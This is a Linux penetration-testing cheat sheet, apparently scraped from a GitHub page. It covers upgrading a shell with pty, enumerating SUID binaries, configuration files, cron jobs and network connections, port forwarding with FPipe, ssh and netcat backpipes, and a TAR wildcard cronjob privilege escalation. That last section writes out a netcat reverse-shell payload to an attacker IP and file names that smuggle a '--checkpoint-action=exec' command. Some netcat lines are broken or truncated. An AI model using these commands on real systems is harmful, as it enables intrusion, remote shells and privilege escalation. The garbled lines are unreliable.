 # Python SPAWN Shell
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	Ctrl + Z
	stty raw -echo; fg
	stty rows 38 columns 116

# After shell tips
	List of useful commands on Linux
	SUID Commands

	find / -user root -perm /4000 2>/dev/null

	find / -perm -u=s -type f 2>/dev/null

	find / -type f -name '*.txt' 2>/dev/null

	find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid

	getcap -r / 2>/dev/null

	What version of the system ?

	cat /etc/issue

	cat /etc/*-release

	cat /etc/lsb-release

	cat /etc/redhat-release

	What is its kernel version ?

	cat /proc/version

	uname -a

	uname -mrs

	rpm -q kernel

	dmesg | grep Linux

	ls /boot | grep vmlinuz

	What is the environment variables ?

	cat /etc/profile

	cat /etc/bashrc

	cat ~/.bash_profile

	cat ~/.bashrc

	cat ~/.bash_logout

	env

	set

	Service settings, there is any wrong allocation?

	cat /etc/syslog.conf

	cat /etc/chttp.conf

	cat /etc/lighttpd.conf

	cat /etc/cups/cupsd.conf

	cat /etc/inetd.conf

	cat /etc/apache2/apache2.conf

	cat /etc/my.conf

	cat /etc/httpd/conf/httpd.conf

	cat /opt/lampp/etc/httpd.conf

	ls -aRl /etc/ | awk ‘$1 ~ /^.*r.*/

	Is there any cron jobs ?

	crontab -l

	ls -alh /var/spool/cron

	ls -al /etc/ | grep cron

	ls -al /etc/cron*

	cat /etc/cron*

	cat /etc/at.allow

	cat /etc/at.deny

	cat /etc/cron.allow

	cat /etc/cron.deny

	cat /etc/crontab

	cat /etc/anacrontab

	cat /var/spool/cron/crontabs/root

	Other users host communication with the system ?

	lsof -i

	lsof -i :80

	grep 80 /etc/services

	netstat -antup

	netstat -antpx

	netstat -tulpn

	chkconfig --list

	chkconfig --list | grep 3:on

	last

	lastlog

	How to port forward ?

	FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

	FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

	ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

	ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port

	ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port

	mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe

	mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe # Port Relay

	mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)

	backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc

	localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)

	TAR wildcard cronjob privilege escalation

	echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 1234 >/tmp/f" > shell.sh

	touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"

	touch "/var/www/html/--checkpoint=1"